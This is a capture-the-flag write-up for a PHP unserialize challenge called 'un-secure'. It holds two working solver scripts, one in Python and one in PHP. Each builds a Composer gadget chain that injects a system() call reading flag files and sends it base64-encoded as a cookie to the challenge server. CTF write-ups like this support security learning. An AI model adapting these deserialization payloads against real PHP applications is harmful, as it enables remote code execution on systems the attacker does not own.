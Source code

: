 # un-secure

Do you know what "unserialize" means? In PHP, unserialize is something that can be very dangerous, you know? 
It can cause Remote Code Execution. 
And if it's combined with an autoloader like in Composer, it can use gadgets in the autoloaded folder to achieve Remote Code Execution.

## Solution

Had trouble in my attempt trying to serialize `\xde\xad\xbe\xef`

```py
# https://github.com/SuperStormer/writeups/blob/master/tcp1pctf_2023/web/unsecure/solve.py

from base64 import b64encode

import requests
from phpserialize import serialize  # this is https://pypi.org/project/libphpserialize/, not the other one
from phpserialize.decorators import namespace

@namespace("GadgetThree")
class Vuln:
	public_waf1 = 1
	protected_waf2 = "\xde\xad\xbe\xef"
	private_waf3 = False
	public_cmd = f"system('cat *.txt');"

@namespace("GadgetOne")
class Adders:
	private_x = Vuln()

@namespace("GadgetTwo")
class Echoers:
	protected_klass = Adders()

exploit = serialize(Echoers())
print(
	requests.get(
	"http://ctf.tcp1p.com:45678/",
	cookies={
	"cookie":
	# do some shenanigans to make waf2 actually be "\xde\xad\xbe\xef"
	b64encode(exploit.encode("latin-1").replace(b"s:8:\"\xde", b"s:4:\"\xde")).decode()
	}
	).text
)
```

Another solver from discord:

```php
<?php

include 'GadgetOne/Adders.php';
include 'GadgetTwo/Echoers.php';
include 'GadgetThree/Vuln.php';

use GadgetOne\Adders;
use GadgetTwo\Echoers;
use GadgetThree\Vuln;

/* Gadget Three */
$vuln = new Vuln();

$vuln->waf1 = 1;

$reflection2 = new \ReflectionProperty(get_class($vuln), 'waf2');
$reflection2->setAccessible(true);
$reflection2->setValue($vuln, "\xde\xad\xbe\xef");

# $vuln->cmd = "system('ls -alh');";
$vuln->cmd = "system('cat 182939124819238912571292389218129123.txt');echo '\n';";

/* Gadget One */
$adder=new Adders($vuln);

/* Gadget Two */
$echoers = new Echoers();

$reflection3 = new \ReflectionProperty(get_class($echoers), 'klass');
$reflection3->setAccessible(true);
$reflection3->setValue($echoers, $adder);

$serialized = serialize($echoers);

echo base64_encode($serialized);
echo "\n\n";
```
